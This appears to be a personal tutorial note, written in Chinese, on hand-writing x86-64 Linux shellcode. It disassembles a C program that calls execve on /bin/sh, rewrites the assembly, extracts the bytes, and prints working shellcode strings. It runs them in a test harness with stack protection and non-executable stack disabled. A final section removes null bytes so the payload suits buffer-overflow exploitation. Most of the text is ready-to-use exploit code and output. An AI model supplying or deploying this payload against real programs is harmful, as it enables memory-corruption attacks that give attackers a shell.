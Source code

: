 ```yaml
---
layout: default
title: shellcode_notes
categories:
- Security
tags:
- Security
---
```

//Description: how to write shellcode. 搜索到的基本上是x86的，少数x64的在自己的机器上也不管用，只有根据自己机器的实际情况自行写一遍。

//Create Date: 2020-04-15 15:43:04

//Author: channy

# shellcode_notes

## 1. 写源码

```c++
//shellcode.c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
	char *buf[2];
	buf[0] = "/bin/sh";
	buf[1] = NULL;
        execve(buf[0], buf, 0);
        return 0;
}
```

## 2. 反编译

```
gcc -o shellcode shellcode.c 
objdump -d shellcode > shellcode.s
```

## 3. 关注反编译中main部分

```
00000000000006aa <main>:
 6aa:   55                      push   %rbp
 6ab:   48 89 e5                mov    %rsp,%rbp
 6ae:   48 83 ec 30             sub    $0x30,%rsp
 6b2:   89 7d dc                mov    %edi,-0x24(%rbp)
 6b5:   48 89 75 d0             mov    %rsi,-0x30(%rbp)
 6b9:   64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
 6c0:   00 00  
 6c2:   48 89 45 f8             mov    %rax,-0x8(%rbp)
 6c6:   31 c0                   xor    %eax,%eax
 6c8:   48 8d 05 c5 00 00 00    lea    0xc5(%rip),%rax        # 794 <_IO_stdin_used+0x4>
 6cf:   48 89 45 e0             mov    %rax,-0x20(%rbp)
 6d3:   48 c7 45 e8 00 00 00    movq   $0x0,-0x18(%rbp)
 6da:   00  
 6db:   48 8b 45 e0             mov    -0x20(%rbp),%rax
 6df:   48 8d 4d e0             lea    -0x20(%rbp),%rcx
 6e3:   ba 00 00 00 00          mov    $0x0,%edx
 6e8:   48 89 ce                mov    %rcx,%rsi
 6eb:   48 89 c7                mov    %rax,%rdi
 6ee:   e8 8d fe ff ff          callq  580 <execve@plt>
 6f3:   b8 00 00 00 00          mov    $0x0,%eax
 6f8:   48 8b 55 f8             mov    -0x8(%rbp),%rdx
 6fc:   64 48 33 14 25 28 00    xor    %fs:0x28,%rdx
 703:   00 00  
 705:   74 05                   je     70c <main+0x62>
 707:   e8 64 fe ff ff          callq  570 <__stack_chk_fail@plt>
 70c:   c9                      leaveq 
 70d:   c3                      retq   
 70e:   66 90                   xchg   %ax,%ax
```

从这步开始就和搜索到的大部分文章不一样了

## 4. 重写汇编

```
//scode.s
.section .text
.global _start
_start:
jmp c1
pp: popq %rcx #将字符串"/bin/sh"的地址存入rcx（通用寄存器），这里可以选择其它寄存器。
pushq %rbp #接下来的三条指令是建立一个新的栈空间
mov %rsp, %rbp
subq $0x30, %rsp
movq %rcx, -0x20(%rbp) #将字符串复制到栈
movq $0x0,-0x18(%rbp) #创建调用exec时的参数name[1]，将它置0.
mov $0, %edx
lea -0x20(%rbp), %rsi #这是execve第二个参数，它需要**类型，所以用lea传送地址给rsi。
mov -0x20(%rbp), %rdi #mov将字符串传给rdi，这是execve第一个参数。
mov $59, %rax #这个59是execve的系统调用号，在/usr/include/asm/unistd_64.h里可以查询到.
syscall #系统调用， 这个可以取代 int 0x80
c1: call pp

.ascii "/bin/sh"
```

然而自己的机器上include里面并没有asm/unistd_64.h文件
```
// /usr/include/asm-generic/unistd.h
607 #define __NR_execve 221
608 __SC_COMP(__NR_execve, sys_execve, compat_sys_execve)
```

```
// /usr/include/x86_64-linux-gnu/asm/unistd_64.h
63 #define __NR_execve 59
```

[reference](https://www.jianshu.com/p/5d1b1eafca21)

## 5. 编译和连接

```
as -o scode.o scode.s
ld -o scode scode.o
```

objdump反汇编scode，提取shellcode

```
for i in $(objdump -d scode | grep "^ " |cut -f2); do echo -n '\x'$i; done;
```

最后得到shellcode

```
\xeb\x2b\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\xc7\x45\xe8\x00\x00\x00\x00\xba\x00\x00\x00\x00\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## 6. 验证

```c++
#include <stdio.h>

unsigned char code[] = "\xeb\x2b\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\xc7\x45\xe8\x00\x00\x00\x00\xba\x00\x00\x00\x00\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

void main(int argc, char *argv[])
{ 
    long *ret; 
    ret = (long *)&ret + 2;  
    (*ret) = (long)code;
}
```

```
gcc shellcodeTest.c -o shellcodeTest -fno-stack-protector -z execstack
```

能够正常运行
```
ity$ ./shellcodeTest 
$ whoami
channy
```

## 7. 进阶

上面一段shellcode并不适用于缓冲区溢出，因为中间好多\x00啦～

> 还有一个注意的是0x20，这个在ascii里代表的是空，也会造成输入中断，输入函数返回。

```
.section .text
.global _start
_start:
jmp c1
pp: popq %rcx 
pushq %rbp 
mov %rsp, %rbp
subq $0x30, %rsp
movq %rcx, -0x20(%rbp) 
xorq %rax, %rax
movq %rax,-0x18(%rbp)
movq %rax, %rdx
lea -0x20(%rbp), %rsi
mov -0x20(%rbp), %rdi
mov $59, %rax
syscall 
c1: call pp

.ascii "/bin/sh"
```

```
\xeb\x28\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\x31\xc0\x48\x89\x45\xe8\x48\x89\xc2\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

//0: disable, 1: enable, 2: default
```
sysctl -w kernel.randomize_va_space=2
```

[back](./)


